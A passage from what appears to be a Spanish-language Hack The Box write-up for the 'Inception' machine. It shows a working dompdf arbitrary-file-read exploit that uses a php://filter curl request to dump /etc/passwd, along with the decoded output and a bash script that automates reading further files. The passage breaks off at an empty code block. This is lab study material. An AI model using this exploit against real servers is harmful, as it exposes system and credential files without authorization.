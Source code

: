 Tratamos el `Output del comando anterior para verlo todo guay y decodificarlo`
```bash
# curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd" | grep -E '[.*?]' | grep -v  '%' | grep -v '/MediaBox' | grep -v '0.000' | awk '{print $8}' | tr -d '[()]' | base64 -d

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
cobb:x:1000:1000::/home/cobb:/bin/bash
```
Identificamos un usuario llamado `cobb` 
Ahora que tenemos la vulnerabilidad de leer archivos de la maquina victima vamos a buscar por recursos interesantes en el sistema.

Enumerando el sistema atraves de un script en bash
```bash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Dompdf-RemoteFileRead.sh
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #/bin/bash
   2   │ 
   3   │ # Arbitrary File Read Machine Inception HTB HacktheBox
   4   │ 
   5   │ file='$1'
   6   │ 
   7   │ if file != '$0' 2>/dev/null; then
   8   │ 
   9   │     curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=$1" | grep -E '[.*?]' | grep -v  '%' | grep -v  '/MediaBox' | grep -v '0.000' | awk '{print $
       │ 8}' | tr -d '[()]' | base64 -d
  10   │ 
  11   │ fi
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
``` 
Procedemos a enumerar el la ruta `/etc/sites-availble/`
```bash
```